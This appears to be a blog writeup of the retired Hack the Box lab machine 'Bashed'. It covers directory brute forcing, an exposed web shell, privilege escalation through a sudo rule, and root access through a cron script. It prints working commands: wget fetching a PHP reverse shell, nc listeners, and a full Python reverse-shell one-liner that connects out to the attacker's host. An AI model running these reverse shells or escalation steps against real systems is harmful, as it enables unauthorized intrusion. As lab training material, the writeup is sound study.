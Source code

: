 ```yaml
---
layout: post
title: "Bashed"
categories: HTB
---
```

<hr>
### Introduction
This is my writeup of the retired machine Bash from Hack the Box.

<hr>
### Nmap scan
```
nmap -sC -sV -oA initial_nmap_scan 10.10.10.68
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-20 00:40 AEDT
Nmap scan report for 10.10.10.68
Host is up (0.30s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.91 seconds
```

http is open on port on 80 let's have a look.

<hr>

### Web Enumeration

Visiting http://10.10.10.68 brings us to this page<br><br>
![](\images\htb\bashed\1.png)<br><br>
None of the links on the side pannel go anywhere, Lets check out the phpbash post<br><br>
![](\images\htb\bashed\2.png)<br><br>
From Arrexel's github “phpbash is a semi-interactive web shell, that looks like the default kali terminal". This github page has nothing to do with the box, feel free to read and see what the tool is capable of, it's pretty cool.

In the post it was stated that phpbash was developed on this website, so it must be here somewhere lets brute force some directories with gobuster!<br>

<hr>

### GoBuster
```
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.68
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/10/20 00:47:53 Starting gobuster
===============================================================
/images (Status: 301)
/uploads (Status: 301)
/php (Status: 301)
/css (Status: 301)
/dev (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
```
<br>

Found 7 directories
```
    • /images
    • /uploads
    • /php
    • /css
    • /dev
    • /js
    • /fonts
```

After trying the list one by one, we land on this page http://10.10.10.68/dev (Possible hint in the post, dev - developed hmm..)<br><br>
![](\images\htb\bashed\3.png)<br><br>
After clicking on phpbash.php we are presented with this beautiful screen.<br><br>
![](\images\htb\bashed\4.png)<br><br>
This works like a terminal, just can't use tab.

<hr>

### phpbash.php

Uploaded LinEnum.sh to the /tmp directory for some local enumeration<br>
   1. Created a http server with python
        - I should mention here that you need to start the python webserver in the folder with the files you want to upload.<br>
   `python -m SimpleHTTPserver 80`
   3. Used wget from the web terminal to download LinEnum.sh wget<br>
   `http://10.10.14.18/LinEnum.sh`
   4. Made the script executable (for everyone, because +x didn't work) with<br>
   `chmod - chmod 777 LinEnum.sh`
   5. Then ran LinEnum.sh with<br>
   `./LinEnum.sh`<br>

It takes a couple of seconds, but the output comes up in the webshell, I just did a copy and paste into CheeryTree to go through it.

Found 2 users<br>
   ```
   1.  arexxel
   2. scriptmanager
   ```
<br>
Did find this particular line interesting:<br>
```
    User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```
<br>
Which means that the user scriptmanager, can run anything without supplying a password. Neat!<br>

<hr>

### Reverse shell

After trying with no luck to get scriptmanager user within the webshell, it was time to try and get a reverse shell. I later found out that this webshell is not persistant, it basically spawns a new shell for every command <br>

So if we try and switch to user scriptmanager in the webshell. It tells us that we are scriptmanager <br>
    `sudo -u scriptmanager whoami`<br><br>
![](\images\htb\bashed\5.png)<br><br>

But if we try whoami again, we are back to www-data <br><br>
![](\images\htb\bashed\6.png)<br><br>

Since we are www-data, I'll be uploading a php reverse shell to the /var/www/html/uploads folder. This will allow me to browse to this file, and get a shell. Let's begin<br>

1. Head over to everyones favourite reverse shell website pentest monkey and grab the php reverse shell<br>
`http://pentestmonkey.net/tools/web-shells/php-reverse-shell`<br><br>
 2. Edit the script for your IP address, you can also change the port to your liking aswell. Change the two lines here:Since we are www-data, I'll be uploading a php reverse shell to the /var/www/html/uploads folder. This will allow me to browse to this file, and get a shell. Let's begin<br><br>
 ![](\images\htb\bashed\7.png)<br><br>
 3. Start a python webserver
       - Remember to start the python webserver in the folder with the files you want to upload.
`python -m SimpleHTTPserver 80`<br>
  4.  From the webshell
  ```
       cd /var/www/html/uploads
       wget http://10.10.14.3/php-reverse-shell.php
  ```
  5. Start a listener to catch the shell
       `nc -lvnp 8888 (port from the script you edited)`
  6. From a browser navigate to
  `http://10.10.10.68/uploads/php-reverse-shell.php`
  7. Take a look at your listener, you should have caught the shell.

First thing I like to try after geting a basic shell is to spawn a tty shell with python.
    `python -c 'import pty;pty.spawn("/bin/bash")'``

<hr>

### Root

You're probably thinking what about user?

After doing an `ls -la` on the / directory, there is a folder that was out of the ordinary<br><br>
![](\images\htb\bashed\8.png)<br><br>

The scripts folder, owned by scriptmanager. Lets change to this user because thats why we went and got a reverse shell in the first place.
    `sudo -u scriptmanager bash`

We are now the user scriptmanager. Let's have a look at the scripts folder<br><br>
![](\images\htb\bashed\9.png)<br><br>

Something interesting was the time and date of test.txt was today's date<br><br>
![](\images\htb\bashed\10.png)<br><br>

Looks like the test.py runs every minute or so, after reading test.py the key thing to notice is that where it is writing to is owned by root, that means the job is being run by root, therefore if we change this file to give us a reverse shell we will be root.

I had a lot of dificulty in editing this file on the box, as vi was not co-operating, what I did was took the python reverse shell from pentest monkey found here http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet and edited it.

Original script
```
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Edited - basically at every “;” make a new line and delete it. Also make sure to change the IP to your machines IP
```
   `import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.3",1234))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"])`
```
Saved the file as python_shell on my own machine, Then uploaded it to the scripts directory on the box, once uploaded renamed python_shell to be test.py

Started a listener to catch the shell
  `nc -lvnp 1234`

after a minute or so you should recieve a shell, or you can force it with
  `python test.py`

We now have root
